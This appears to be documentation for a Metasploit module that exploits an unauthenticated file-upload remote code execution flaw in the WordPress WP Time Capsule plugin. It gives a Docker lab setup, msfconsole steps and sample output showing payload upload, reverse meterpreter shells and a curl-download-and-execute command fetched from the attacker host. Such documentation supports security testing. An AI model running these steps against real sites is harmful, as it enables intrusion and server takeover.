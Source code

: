 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in the WordPress WP Time Capsule plugin, versions <= 1.22.21.
The vulnerability arises from an unauthenticated arbitrary file upload flaw due to improper validation logic in the plugin.

To replicate a vulnerable environment for testing:

1. Install WordPress using the provided Docker Compose configuration.
2. Download and install the [WP Time Capsule plugin v1.22.21](https://downloads.wordpress.org/plugin/wp-time-capsule.1.22.21.zip).
3. Verify that the plugin is activated and accessible on the local network.
4. Register for a WP Time Capsule account and connect the plugin to an external storage system (e.g., Google Drive, Dropbox).
5. Access `wp-admin/admin.php?page=wp-time-capsule-settings#wp-time-capsule-tab-advanced` to enable the **file upload functionality**
by clicking **"Click here to show upload options"**.
This action triggers the `prepare_file_upload_index_file_wptc` function, which creates the required `index.php` file
in the `/wp-tcapsule-bridge/upload/php/` directory, making the issue exploitable.

## Docker Compose Configuration

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:6.3.2
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: root
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 8G
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: root
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

Create a `custom.ini` file with the following content:

```ini
upload_max_filesize = 64M
post_max_size = 64M
```

## Verification Steps

1. Set up a WordPress instance with the WP Time Capsule plugin (version 1.22.21) using the provided `docker-compose.yml`.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/wp_time_capsule_file_upload_rce`.
4. Set `RHOSTS` to the IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload and return a session.

## Options

No additional options are required beyond the default ones provided in Metasploit.

## Scenarios

### Successful Exploitation Against WordPress with WP Time Capsule 1.22.21

**Setup**:

- Local WordPress instance with WP Time Capsule version 1.22.21.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```bash
use exploit/multi/http/wp_time_capsule_file_upload_rce
```
3. Set `RHOSTS` to the target's IP (e.g., `172.18.0.3`).
4. Configure other necessary options (e.g., `TARGETURI`).
5. Launch the exploit:
```bash
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```plaintext
msf exploit(multi/http/wp_time_capsule_file_upload_rce) > run http://172.18.0.3

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/wp-time-capsule/readme.txt
[*] Found version 1.22.21 in the plugin
[+] The target appears to be vulnerable. WP Time Capsule plugin appears to be vulnerable.
[*] Uploading payload: rJ.php with MIME type: message/http...
[+] Payload uploaded successfully. Parsing response...
[*] Triggering the payload at: http://172.18.0.3/wp-content/plugins/wp-time-capsule/wp-tcapsule-bridge/upload/php/files/rJ.php
[*] Sending stage (40004 bytes) to 172.18.0.3
[+] Deleted rJ.php
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 172.18.0.3:42434) at 2024-12-11 00:48:18 +0100

meterpreter > sysinfo 
Computer    : 0bd3f3b7102e
OS          : Linux 0bd3f3b7102e 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```plaintext
msf exploit(multi/http/wp_time_capsule_file_upload_rce) > run http://172.18.0.3

[*] Command to run on remote host: curl -so ./EHsooyPGi http://192.168.1.36:8080/LoPlnjEpeOexZNVppn6cAA; chmod +x ./EHsooyPGi; ./EHsooyPGi &
[*] Fetch handler listening on 192.168.1.36:8080
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/wp-time-capsule/readme.txt
[*] Found version 1.22.21 in the plugin
[+] The target appears to be vulnerable. WP Time Capsule plugin appears to be vulnerable.
[*] Uploading payload: Ps.php with MIME type: application/zip...
[+] Payload uploaded successfully. Parsing response...
[*] Triggering the payload at: http://172.18.0.3/wp-content/plugins/wp-time-capsule/wp-tcapsule-bridge/upload/php/files/Ps.php
[*] Client 172.18.0.3 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 172.18.0.3 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.18.0.3
[+] Deleted Ps.php
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 172.18.0.3:50396) at 2024-12-11 01:06:52 +0100

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 11.8 (Linux 5.15.0-126-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
